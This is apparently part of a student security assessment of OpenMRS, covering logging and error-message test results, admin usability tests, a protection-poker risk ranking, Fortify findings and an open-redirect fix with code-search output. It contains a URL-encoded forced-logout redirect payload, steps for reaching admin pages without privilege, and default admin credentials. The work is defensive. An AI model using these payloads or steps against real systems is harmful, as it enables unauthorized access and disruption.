Result: Failed. The log file only records the delete reason and fail to record who delete this patient. Moreover, the log file use separate log lines to record one delete action. This would make mistakes when multiple user are using the system. The system doesn't recognize who delete the patient.

Solution : Log files should remember the user who click on every add, delete or other changes on the database. The delete function should be the same with add or save in the log files regards the Argument. So the log files related to delete function should be In method PatientService.voidPatient(this is better to be deletePatient). Argument: user = "", Patient = "", String = "".


### ADP03
Quiet Your Error Messages : Attackers can cause system errors intentionally to gather information about the system. Error messages should be minimalist, without giving details on the failure.

Test Step:
* Step 1: Log in as admin(admin).
* Step 2: Click register a patient.
* Step 3: Delete the appId part of the url. http://localhost:8082/openmrs-standalone/registrationapp/registerPatient.page
* Step 4: See if there are some detailed error message.

Result: Failed. There are detailed error message about the source code. The hacker can try multiple error to get the logic and detail about the source code.

Solution: The system should only return a simple error message without showing any detail about the code. E.g. 404 Error.


## 10- EVALUATING USABILITY COMPLIANCE

### A. Visibility: ###

The administrative interface should allow users to easily review any active authority relationships that would affect security-relevant decisions. However OpenMRS don’t have this function. All the log information is stored within server information, and it is hard to find out the active authority relationships.

**Static Analysis**

**Test ID**: V-1

| Test step         | Test data     | States  |
| :---              | :---           | :---        |
|1. Log in as Admin	| account: admin <br> password: Admin123 <br> location: Pharmacy | You should see **System Administration**   |
|2. Click **System Administration** | | You could find **Advance Administration** option |
|2. Click **Advance Administration** | | You could find **Manage Roles** option |
|3. Click **Manage Roles** | |  |
|4. Make any change (like adding a role) and click save | | |
|5. Go back to **Advance Administration** and click **View Server Log** | | You should able to see that your operation is stored in the log with many other server logs |

**Assumption:** OpenMRS runs normally through the whole test process.

**Expected Result:** OpenMRS should have a function or UI allowing the user to easily review any active authority relationships that would affect security-relevant decisions.

**Actual Result:** 
The operation is stored in the log with many other server logs.


**Solution:** OpenMRS should implement a function to only show the active authority relationships that would affect security-relevant decisions.


### B. Clarity: ###
The administrative interface should not be misleading, ambiguous. However OpenMRS has some ambiguous error messages when registering a new user. Admin user needs to check the log information to know what is wrong during registration process.

**Static Analysis**

**Test ID**: C-1

| Test step         | Test data     | States  |
| :---              | :---           | :---        |
|1. Log in the system with wrong password | account: admin <br> password: wrong <br> location: Pharmacy  | You should see **System Administration**   |
|2. Click **System Administration** | | You should see **Manage Account** |
|3. Click **Manage Account** | | You should be able to **Add New Account**.|
|5. Add a new account with any name, username and other setting, but with password as abcd1234 and click **save** | password: abcd1234 | |

**Assumption:** OpenMRS runs normally through the whole test process.

**Expected Result:** OpenMRS should give user a clear error message about which part is wrong instead of just saving them in the log file.

**Actual Result:** 
The error message only shows it is a "Validation Error" without specifying which part goes wrong.



**Solution:** OpenMRS could summarize the error from the log and change the error message displayed into a more specific one. 


### C. Expected ability: ###
The administrative interface must not generate the impression that it is possible to do something that cannot actually be done. But OpenMRS sometimes gives user a feeling that they can do what they can’t do.

**Static Analysis**

**Test ID**: E-1

| Test step         | Test data     | States  |
| :---              | :---           | :---        |
|1. Log in the system with wrong password | account: admin <br> password: wrong <br> location: Pharmacy  | You should see **System Administration**   |
|2. Click **System Administration** | | You should see **Manage Account** |
|3. Click **Manage Account** | | You should be able to **Add New Account**.|
|4. Add a new account with only **Requests Appointments** privilege. Other fields are any personal choices that pass the validation |||
|5. Log out from admin account and Log in as the new user created|| No button in the main Page |
|6. Put URL *http://localhost:8080/openmrs-standalone/coreapps/systemadministration/systemAdministration.page* into browser and go to the page ||  |


**Assumption:** OpenMRS runs normally through the whole test process on port 8080.

**Expected Result:** The new user still could not see any options or buttons in the that page. And OpenMRS should not display any page that is above current user’s privilege.

**Actual Result:**
*Manage Global Properties* and *Manage Account* functions are now accessible to the new user.



**Solution:** OpenMRS should not redirect user to any page that they should not access. Full authentication function in the backend needs to be implemented.


## 11- RISK EVALUATION VIA PROTECTION POKER ##


### Requirements ###

#### Overview ####
In this part we proposed five functional requirements to be evaluated by protection poker . 

#### Requirement 1: Adding Message of Failing Logging in ####
To improve user experience, when user fails logging in and is redirected back to the logging page, there should be a failure message displayed on the logging page. To be visible enough to users, the font of the message should be larger than common text. In addition, the message should not be placed in the corner of the page and should be displayed in red. To be unambiguous to users, the message should be written in human language and contain the reason why logging in fails (e.g. "Wrong Username or Password").

#### Requirement 2: Adding Field of Driver License Number ####
To achieve better identification of patient, when registering new patient, the user could ask patient for his/her driver license number and input it to the system. Correspondingly, a new field for driver license number should be added to the Registering Page. This field should not be a necessary field for registration.

#### Requirement 3: Better System Error Message ####
To prevent sensitive information being leaked, once the user meets a system error, the user interface should show the user appropriate error message instead of a stack/error trace which contain useful information about the application’s internal design, like java classes, libraries used or database table names. The message should be a summary of the error in human language without containing any sensitive information.


#### Requirement 4: Registering only at Registration Desk ####
To achieve better management, common users (e.g. clerk) with the ability of registering new patient could only register patients when logging in with location as "Registration Desk". Correspondingly, without logging in with selecting location as "Registration Desk", the "Register new Patient" button should not be accessible to users. However, the admin user could register a new patient everywhere.


#### Requirement 5: Removing Data Management Function ####
Since user could merge patients in the patient's page, the is no need of keeping "Data Management" module (The only function in this module is merging patients). The "Data Management" button should be no longer accessible to users in the main page. The ""Data Management" page should be removed.

### Database Domains Value Points ###

Instead of using tables in this part, we used domains which organize the database tables in terms of the various information and also usage of the system. The points to choose from: **[ 1, 2, 3, 5, 8, 13, 20, 40, 100 ]**.

| Domain			| Description		| Value		| 
| :---              | :---      		| :--- 		|
| Concept | Concepts are defined and used to support strongly coded data throughout the system. Drug data are stored in this domain | 40 |
| Encounter | Contains the meta-data regarding health care providers interventions with a patient. Some data like location and provider are stored in this domain | 20 |
| Form | The user interface description for the various components. Not important but may contain some information could be used by attacker. | 13 |
| Observation | This is where the actual health care information is stored. This domain contains some private medical information like drug usage. | 20 |
| Order | Things/actions that have been requested to occur | 20 |
| Patient | Basic information about patients in this system. This domain does not contain much private information (which is actually stored in Person domain). So it is not set as the most valuable one. | 40 |
| User | Basic information about the people that use this system. Username and password of system account are stored in this domain. | 100 |
| Person | Basic information about person in the system. Most private information such as address, mobile are stored in this domain. | 100 |
| Business | Non medical data used to administrate openMRS. This domain contains some data like report, which may contain sensitive data  | 20 |
| Groups/Workflow | Workflows and Cohort data. Patient program and patient state are stored in this domain | 20 |

Reference:  [https://wiki.openmrs.org/display/docs/Data+Model](https://wiki.openmrs.org/display/docs/Data+Model)

### Database Domains Used by Requirement ###

| Requirement		| Domain Used	| Value Sum |
| :---              | :---      	| :--- 	|
| R1             	| Form			 		| 13		|
| R2             	| Form, Person			| 113		| 
| R3             	| Form 					| 13		| 
| R4             	| Form, Encounter 		| 33 		| 
| R5             	| Form		 			| 13 		| 


### Security Ranking ###

| Requirement | Ease of Attack Points | Value of Asset Points | Security Risk | Rank of Security Risk |
| :---      | :---      			| :--- 				  | :---			| :---		| 
| R1        | 	     	3		  	| 	13				  | 39				| 4			| 
| R2       	| 	     	13		  	| 	113				  | 1469			| 1			|   
| R3      	| 	 		1			| 	13 				  | 13				| 5			| 
| R4       	| 	      	2		  	| 	33				  | 66				| 3			| 
| R5       	| 	      	8		  	| 	13				  | 104				| 2			| 


### Explanation ###

To evaluate security risk of each requirement, the first step is evaluating values of different domains. How each domains is assigned is described in the **Description** column in the table of **Database Domains Value Points**. The value of asset points of each requirement is the sum of values of the domain it used. 

The ease of attack points of each requirement is decided by protection poker and discussions among group members. The points are also chosen from **[ 1, 2, 3, 5, 8, 13, 20, 40, 100 ]**. Among the five requirements, the 3rd requirement is selected as the hardest to attack. It removes detailed stack trace and uses appropriate error message. As a result, sensitive information contained in the stack trace could be avoided from being leaked. Thus it is assigned with 1 ease of attack point.

Starting from the 1st requirement, it adds UI elements in client side which could be integrated with malicious script. However, the content of the message is usually fixed and not related with user input. As a result, the ease of attack point should be about 3.
The 2nd requirement adds a new field (attack surface) of driver license number in registration page. Especially for the new field may not validate input as old fields, the attacker could easily inject malicious scripts via client side. However, considering the input validation in server side and Hibernate framework, the ease of attack point of this requirement is assigned with 13.
The 4th requirement doesn't increase or reduce attack surface. But considering that the implementation of the requirement may add some condition checking, breaking the condition checking may be one attack method. The ease of attack point of this requirement is assigned with 2.
The 5th requirement (Removing Data Management Function) reduces redundant pages (attack surfaces).  However, removing existing functionality and page may cause new vulnerability (e.g. exposed interface). Thus the ease of attack points is estimated to be 8.

In the end, the security risk can be calculated by **Security Risk = (Ease of Attack Points) * (Value of Asset Points)**. And the rank of security risk is assigned based on the security points.


## 12- RECOMMENDED BUG FIXES ##

### Fortify analysis -2- COMMAND LINE INJECTION

### * Description
#### Name of module : OpenMRS login
The method execMysqlCmd() in MigrateDataSet.java:187 calls exec() with a command built from untrusted data. This call can cause the program to execute malicious commands on behalf of an attacker.

### * Bug Fix
#### Original code

<br/>
#### Modified code

<br/>
Make the variable private and use a maping table to map certain whitelisted inputs to certain relevant database parameters (table names, etc). The case in the screenshot is done by explicitly assign the database name to the variable. This warning is common in many files so it has to be up to each developer to do his/her own whitelisting

----------

#### Fortify analysis -3- PRIVACY VIOLATION

### * Description
#### Name of module : OpenMRS login
The method authenticate() in Context.java:287 mishandles confidential information, which can compromise user privacy and is often illegal. More specifically, the password enters the program, and the statement log.debug("Authenticating with username: " + username); in authenticate() will display the username in log when debug is enabled.

### * Bug Fix
#### Original code

<br/>
#### Modified code

<br/>
Follow recommendations at https://wiki.openmrs.org/display/docs/Security+and+Encryption we encode the plain password using the built-in "encodeString" function. This change has to be made accross all authentication functions that use plain password as input.

----------

### Fortify analysis -4- PASSWORD IN CONFIGURATION FILE

### * Description
#### Name of module : OpenMRS login
In liquibase-core-data.xml:5, the password is stored as plaintext in the configuration file. Storing a plaintext password in a configuration file may result in a system compromise.

### * Bug Fix
#### Original code

<br/>
#### Modified code

<br/>
Follow recommendations at https://wiki.openmrs.org/display/docs/Security+and+Encryption we encode the plain password using the built-in "encodeString" function. This change has to be made accross all authentication functions that output password into XML files.

## IMMEDIATE PULL REQUEST RECOMMENDATION

### Affected module : OpenMRS login
+ Page location : http://localhost:8081/openmrs-standalone/login.htm
+ Attack type : unauthorized redirect after login
+ Attack value : %2Fopenmrs-standalone%2Fappui%2Fheader%2Flogout.action%3FsuccessUrl%3Dopenmrs-standalone

We propose the following bug fix - replacing any "logout" string with a "home" string so that even when attackers found a way to force the logout page (to accomplish denial of service), the server codes will change that and redirect user back to home.

#### Original code

<br/>

#### Modified code

<br/>

#### Code locations

Searching 3348 files for "redirectUrl"

\openmrs-module-referenceapplication\omod\src\main\java\org\openmrs\module\referenceapplication\page\controller\LoginPageController.java:
   72  	 * @should redirect the user to the home page if they are already authenticated
   73  	 * @should show the user the login page if they are not authenticated
   74: 	 * @should set redirectUrl in the page model if any was specified in the request
   75: 	 * @should set the referer as the redirectUrl in the page model if no redirect param exists
   76: 	 * @should set redirectUrl in the page model if any was specified in the session
   77: 	 * @should not set the referer as the redirectUrl in the page model if referer URL is outside context path
   78: 	 * @should set the referer as the redirectUrl in the page model if referer URL is within context path
   79  	 */
   80  	public String get(PageModel model,
   ..
   85  	                  @SpringBean("appFrameworkService") AppFrameworkService appFrameworkService) {
   86  
>> 87: 		String redirectUrl = getRedirectUrl(pageRequest);
   88  
   89  		if (Context.isAuthenticated()) {
   90: 			if(StringUtils.isNotBlank(redirectUrl)){
   91: 				return "redirect:" + getRelativeUrl(redirectUrl, pageRequest);
   92  			}
   93  			return "redirect:" + ui.pageLink(ReferenceApplicationConstants.MODULE_ID, "home");
   94  		}
   95  
   96: 		model.addAttribute(REQUEST_PARAMETER_NAME_REDIRECT_URL, getRelativeUrl(redirectUrl, pageRequest));
   97  
   98  		Location lastSessionLocation = null;
   ..
  116  	}
  117  
  118: 	private boolean isUrlWithinOpenmrs(PageRequest pageRequest, String redirectUrl){
  119: 		if (StringUtils.isNotBlank(redirectUrl)) {
  120: 			if (redirectUrl.startsWith("http://") || redirectUrl.startsWith("https://")) {
  121  				try {
  122:                     URL url = new URL(redirectUrl);
  123                      String urlPath = url.getFile();
  124                      String urlContextPath = urlPath.substring(0, urlPath.indexOf('/', 1));
  ...
  129                      log.error(e.getMessage());
  130                  }
  131: 			} else if(redirectUrl.startsWith(pageRequest.getRequest().getContextPath())){
  132  				return true;
  133  			}
  ...
  136  	}
  137  
>>138: 	private String getRedirectUrlFromReferer(PageRequest pageRequest) {
  139  		String manualLogout = pageRequest.getSession().getAttribute(AppUiConstants.SESSION_ATTRIBUTE_MANUAL_LOGOUT, String.class);
  140: 		String redirectUrl = "";
  141  		if(!Boolean.valueOf(manualLogout)){
  142: 			redirectUrl = pageRequest.getRequest().getHeader("Referer");
  143  		} else {
  144  			Cookie cookie = new Cookie(ReferenceApplicationWebConstants.COOKIE_NAME_LAST_USER, null);
  ...
  148  		}
  149  		pageRequest.getSession().setAttribute(AppUiConstants.SESSION_ATTRIBUTE_MANUAL_LOGOUT, null);
  150: 		return redirectUrl;
  151  	}
  152  
  153: 	private String getRedirectUrlFromRequest(PageRequest pageRequest){
  154  		return pageRequest.getRequest().getParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL);
  155  	}
  156  
  157: 	private String getRedirectUrl(PageRequest pageRequest) {
  158: 		String redirectUrl = getRedirectUrlFromRequest(pageRequest);
  159: 		if (StringUtils.isBlank(redirectUrl)) {
  160: 			redirectUrl = getStringSessionAttribute(SESSION_ATTRIBUTE_REDIRECT_URL, pageRequest.getRequest());
  161  		}
  162: 		if (StringUtils.isBlank(redirectUrl)) {
  163: 			redirectUrl = getRedirectUrlFromReferer(pageRequest);
  164  		}
  165: 		if (StringUtils.isNotBlank(redirectUrl) && isUrlWithinOpenmrs(pageRequest, redirectUrl)) {
  166: 			return redirectUrl;
  167  		}
  168  		return "";
  ...
  180  	 * @param sessionContext
  181  	 * @return
  182: 	 * @should redirect the user back to the redirectUrl if any
  183: 	 * @should redirect the user to the home page if the redirectUrl is the login page
  184  	 * @should send the user back to the login page if an invalid location is selected
  185  	 * @should send the user back to the login page when authentication fails
  ...
  191  	                   UiSessionContext sessionContext) {
  192  
  193: 		String redirectUrl = pageRequest.getRequest().getParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL);
  194: 		redirectUrl = getRelativeUrl(redirectUrl, pageRequest);
  195  		Location sessionLocation = null;
  196  		if (sessionLocationId != null) {
  ...
  238  					}
  239  
  240: 					if (StringUtils.isNotBlank(redirectUrl)) {
  241  						//don't redirect back to the login page on success nor an external url
  242: 						if (isUrlWithinOpenmrs(pageRequest, redirectUrl)) {
  243: 							if (!redirectUrl.contains("login.") && isSameUser(pageRequest, username)) {
  244                                  if (log.isDebugEnabled())
  245:                                     log.debug("Redirecting user to " + redirectUrl);
  246:                                 return "redirect:" + redirectUrl;
  247                              } else {
  248                                  if (log.isDebugEnabled())
  ...
  277  		//TODO limit login attempts by IP Address
  278  
  279: 		pageRequest.getSession().setAttribute(SESSION_ATTRIBUTE_REDIRECT_URL, redirectUrl);
  280  
  281  		return "redirect:" + ui.pageLink(ReferenceApplicationConstants.MODULE_ID, "login");


\openmrs-module-referenceapplication\omod\src\main\java\org\openmrs\module\referenceapplication\ReferenceApplicationWebConstants.java:
   22  	public static final String SESSION_ATTRIBUTE_REDIRECT_URL = "_REFERENCE_APPLICATION_REDIRECT_URL_";
   23  	
   24: 	public static final String REQUEST_PARAMETER_NAME_REDIRECT_URL = "redirectUrl";
   25  
   26      public static final String COOKIE_NAME_LAST_SESSION_LOCATION = "referenceapplication.lastSessionLocation";


\openmrs-module-referenceapplication\omod\src\main\webapp\pages\login.gsp:
  158              </fieldset>
  159  
  160:     		<input type="hidden" name="redirectUrl" value="${redirectUrl}" />
  161  
  162          </form>


\openmrs-module-referenceapplication\omod\src\test\java\org\openmrs\module\referenceapplication\page\controller\LoginPageControllerTest.java:
  162  	 */
  163  	@Test
  164: 	@Verifies(value = "should set redirectUrl in the page model if openmrs related url was specified in the request", method = "get(PageModel,UiUtils,PageRequest)")
  165: 	public void get_shouldSetRedirectUrlInThePageModelIfOpenmrsRelatedUrlWasSpecifiedInTheRequest() throws Exception {
  166  		when(Context.isAuthenticated()).thenReturn(false);
  167  
  168: 		String redirectUrl = TEST_CONTEXT_PATH + "/referenceapplication/patient.page";
  169  		MockHttpServletRequest request = new MockHttpServletRequest();
  170  		request.setContextPath(TEST_CONTEXT_PATH);
  171: 		request.addParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL, redirectUrl);
  172  		PageModel pageModel = new PageModel();
  173  
  174  		new LoginPageController().get(pageModel, uiUtils, createPageRequest(request, null), null, null, appFrameworkService);
  175  
  176: 		assertEquals(redirectUrl, pageModel.get(REQUEST_PARAMETER_NAME_REDIRECT_URL));
  177  	}
  178  
  ...
  184  	 */
  185  	@Test
  186: 	@Verifies(value = "should set the referer as the redirectUrl in the page model if no redirect param exists", method = "get(PageModel,UiUtils,PageRequest)")
  187: 	public void get_shouldSetTheRefererAsTheRedirectUrlInThePageModelIfNoRedirectParamExists() throws Exception {
  188  		when(Context.isAuthenticated()).thenReturn(false);
  189  
  ...
  206  	 */
  207  	@Test
  208: 	@Verifies(value = "should set redirectUrl in the page model if any was specified in the session", method = "get(PageModel,UiUtils,PageRequest)")
  209: 	public void get_shouldSetRedirectUrlInThePageModelIfAnyWasSpecifiedInTheSession() throws Exception {
  210  		when(Context.isAuthenticated()).thenReturn(false);
  211  
  212: 		String redirectUrl = TEST_CONTEXT_PATH + "/referenceapplication/patient.page";
  213  		MockHttpServletRequest request = new MockHttpServletRequest();
  214  		request.setContextPath(TEST_CONTEXT_PATH);
  215  		PageRequest pageRequest = createPageRequest(request, null);
  216  		HttpSession httpSession = new MockHttpSession();
  217: 		httpSession.setAttribute(SESSION_ATTRIBUTE_REDIRECT_URL, redirectUrl);
  218  		request.setSession(httpSession);
  219  
  ...
  221  		new LoginPageController().get(pageModel, uiUtils, pageRequest, null, null, appFrameworkService);
  222  
  223: 		assertEquals(redirectUrl, pageModel.get(REQUEST_PARAMETER_NAME_REDIRECT_URL));
  224  	}
  225  
  ...
  231  	 */
  232  	@Test
  233: 	@Verifies(value = "should redirect user to requested url specified in ?redirectUrl if it is openmrs related and user is authenticated", method = "get(PageModel,UiUtils,PageRequest)")
  234  	public void get_shouldRedirectUserToRequestedUrlIfAuthenticated() throws Exception{
  235  		when(Context.isAuthenticated()).thenReturn(true);
  236  
  237: 		String redirectUrl = TEST_CONTEXT_PATH + "/referenceapplication/patient.page";
  238  		MockHttpServletRequest request = new MockHttpServletRequest();
  239  		request.setContextPath(TEST_CONTEXT_PATH);
  240: 		request.setParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL, redirectUrl);
  241  		PageRequest pageRequest = createPageRequest(request, null);
  242  		HttpSession httpSession = new MockHttpSession();
  ...
  245  		PageModel pageModel = new PageModel();
  246  
  247: 		assertEquals("redirect:" + redirectUrl, new LoginPageController().get(pageModel, uiUtils, pageRequest, null, null, appFrameworkService));
  248  	}
  249  
  ...
  255  	 */
  256  	@Test
  257: 	@Verifies(value = "should redirect user to home if ?redirectUrl is not openmrs related and user is authenticated", method = "get(PageModel,UiUtils,PageRequest)")
  258  	public void get_shouldRedirectUserToHomeIfAuthenticated() throws Exception{
  259  		when(Context.isAuthenticated()).thenReturn(true);
  260  
  261: 		String redirectUrl = "/somePage/notOpenmrs.page";
  262  		MockHttpServletRequest request = new MockHttpServletRequest();
  263  		request.setContextPath(TEST_CONTEXT_PATH);
  264: 		request.setParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL, redirectUrl);
  265  		PageRequest pageRequest = createPageRequest(request, null);
  266  		HttpSession httpSession = new MockHttpSession();
  ...
  269  		PageModel pageModel = new PageModel();
  270  
  271: 		assertNotEquals("redirect:" + redirectUrl, new LoginPageController().get(pageModel, uiUtils, pageRequest, null, null, appFrameworkService));
  272  	}
  273  
  ...
  279  	@Test
  280  	@Verifies(value = "should redirect user to home after manual logout and login", method = "get(String,String,UiUtils,PageRequest)")
  281: 	public void get_shouldNotSetRedirectUrlParamAfterManualLogout() throws Exception {
  282  		when(Context.isAuthenticated()).thenReturn(false);
  283  
  ...
  310  
  311  		final String homeRedirect = "redirect:" + uiUtils.pageLink(ReferenceApplicationConstants.MODULE_ID, "home");
  312: 		String redirectUrl = TEST_CONTEXT_PATH + "/referenceapplication/patient.page";
  313  
  314  		MockHttpServletRequest request = new MockHttpServletRequest();
  315: 		request.setParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL, redirectUrl);
  316  		request.setCookies(new Cookie(ReferenceApplicationWebConstants.COOKIE_NAME_LAST_USER, String.valueOf("oldUser".hashCode())));
  317  
  ...
  330  	 */
  331  	@Test
  332: 	@Verifies(value = "should redirect old user to page requested in redirectUrl param", method = "post(String,String,UiUtils,PageRequest)")
  333: 	public void post_shouldRedirectOldUserToRedirectUrl() throws Exception {
  334  		setupMocksForSuccessfulAuthentication(true);
  335  
  336: 		String redirectUrl = TEST_CONTEXT_PATH + "/referenceapplication/patient.page";
  337  
  338  		MockHttpServletRequest request = new MockHttpServletRequest();
  339: 		request.setParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL, redirectUrl);
  340  		request.setCookies(new Cookie(ReferenceApplicationWebConstants.COOKIE_NAME_LAST_USER, String.valueOf(USERNAME.hashCode())));
  341  		PageRequest pageRequest = createPageRequest(request, null);
  ...
  343  		mockAuthenticatedUser();
  344  		
  345: 		assertEquals("redirect:" + redirectUrl, new LoginPageController().post(USERNAME, PASSWORD, SESSION_LOCATION_ID,
  346  				locationService, uiUtils, pageRequest, sessionContext));
  347  	}
  ...
  353  	 */
  354  	@Test
  355: 	@Verifies(value = "should redirect the user to the home page if the redirectUrl is the login page", method = "post(String,String,UiUtils,PageRequest)")
  356: 	public void post_shouldRedirectTheUserToTheHomePageIfTheRedirectUrlIsTheLoginPage() throws Exception {
  357  		setupMocksForSuccessfulAuthentication(true);
  358  
  359: 		final String redirectUrl = uiUtils.pageLink(ReferenceApplicationConstants.MODULE_ID, "login");
  360  		final String homeRedirect = "redirect:" + uiUtils.pageLink(ReferenceApplicationConstants.MODULE_ID, "home");
  361  		MockHttpServletRequest request = new MockHttpServletRequest();
  362  		request.setContextPath("/openmrs");
  363: 		request.setParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL, redirectUrl);
  364  		PageRequest pageRequest = createPageRequest(request, null);
  365  
  ...
  409  	/**
  410       * @see LoginPageController#get(PageModel,UiUtils,PageRequest,String,LocationService,AppFrameworkService)
  411:      * @verifies not set the referer as the redirectUrl in the page model if referer URL is outside context path
  412       */
  413      @Test
  414:     public void get_shouldNotSetTheRefererAsTheRedirectUrlInThePageModelIfRefererUrlIsOutsideContextPath() throws Exception {
  415      	when(Context.isAuthenticated()).thenReturn(false);
  416      	
  ...
  427  	/**
  428       * @see LoginPageController#get(PageModel,UiUtils,PageRequest,String,LocationService,AppFrameworkService)
  429:      * @verifies set the referer as the redirectUrl in the page model if referer URL is within context path
  430       */
  431      @Test
  432:     public void get_shouldSetTheRefererAsTheRedirectUrlInThePageModelIfRefererUrlIsWithinContextPath() throws Exception {
  433      	when(Context.isAuthenticated()).thenReturn(false);
  434      	
  435:     	String redirectUrl = TEST_CONTEXT_PATH +"/demo/";
  436: 		String refererUrl = "http://openmrs.org" + redirectUrl;    	
  437  		MockHttpServletRequest request = new MockHttpServletRequest();
  438  		request.setContextPath(TEST_CONTEXT_PATH);
  ...
  441  		new LoginPageController().get(pageModel, uiUtils, createPageRequest(request, null), null, null, appFrameworkService);
  442  		
  443: 		assertEquals(redirectUrl, pageModel.get(REQUEST_PARAMETER_NAME_REDIRECT_URL));
  444      }
  445  
  ...
  451  	 */
  452  	@Test
  453: 	@Verifies(value = "should set redirectUrl as redirectUrl param when referer specified", method = "get(PageModel,UiUtils,PageRequest)")
  454: 	public void get_shouldChooseRedirectUrlOverReferer() throws Exception{
  455  		when(Context.isAuthenticated()).thenReturn(true);
  456  
  457: 		String redirectUrl = "/openmrs/redirect.page";
  458  		String refererUrl = "/openmrs/referer.page";
  459  		MockHttpServletRequest request = new MockHttpServletRequest();
  460  		request.setContextPath(TEST_CONTEXT_PATH);
  461: 		request.setParameter(REQUEST_PARAMETER_NAME_REDIRECT_URL, redirectUrl);
  462  		request.addHeader("Referer", refererUrl);
  463  		PageRequest pageRequest = createPageRequest(request, null);
  ...
  467  		PageModel pageModel = new PageModel();
  468  
  469: 		assertEquals("redirect:" + redirectUrl, new LoginPageController().get(pageModel, uiUtils, pageRequest, null, null, appFrameworkService));
  470  	}
  471  }


\openmrs-module-registrationapp\omod\src\main\java\org\openmrs\module\registrationapp\fragment\controller\RegisterPatientFragmentController.java:
  266          InfoErrorMessageUtil.flashInfoMessage(request.getSession(), ui.message("registrationapp.createdPatientMessage", ui.encodeHtml(ui.format(patient))));
  267  
  268:         String redirectUrl = app.getConfig().get("afterCreatedUrl").getTextValue();
  269:         redirectUrl = redirectUrl.replaceAll("\\{\\{patientId\\}\\}", patient.getUuid().toString());
  270          if (registrationEncounter != null) {
  271:             redirectUrl = redirectUrl.replaceAll("\\{\\{encounterId\\}\\}", registrationEncounter.getId().toString());
  272          }
  273  
  274:         return new SuccessResult(redirectUrl);
  275      }
  276  


\openmrs-module-uiframework\omod\src\main\java\org\openmrs\module\uiframework\PageController.java:
  126              }
  127              
  128:             setRedirectUrl(request);
  129              
  130              return "redirect:" + ret;
  ...
  145              APIAuthenticationException authEx = ExceptionUtil.findExceptionInChain(ex, APIAuthenticationException.class);
  146              if (authEx != null) {
  147:             	setRedirectUrl(request);
  148                  throw authEx;
  149              }
  ...
  170      }
  171      
  172:     private void setRedirectUrl(HttpServletRequest request) {
  173      	StringBuffer url = request.getRequestURL();
  174      	String queryStr = request.getQueryString();


\openmrs-module-webservices.rest\omod\src\main\webapp\resources\js\swagger-ui-3.0.10\swagger-ui-bundle.js:
    <binary>


\openmrs-module-webservices.rest\omod\src\main\webapp\resources\js\swagger-ui-3.0.10\swagger-ui-standalone-preset.js:
    <binary>


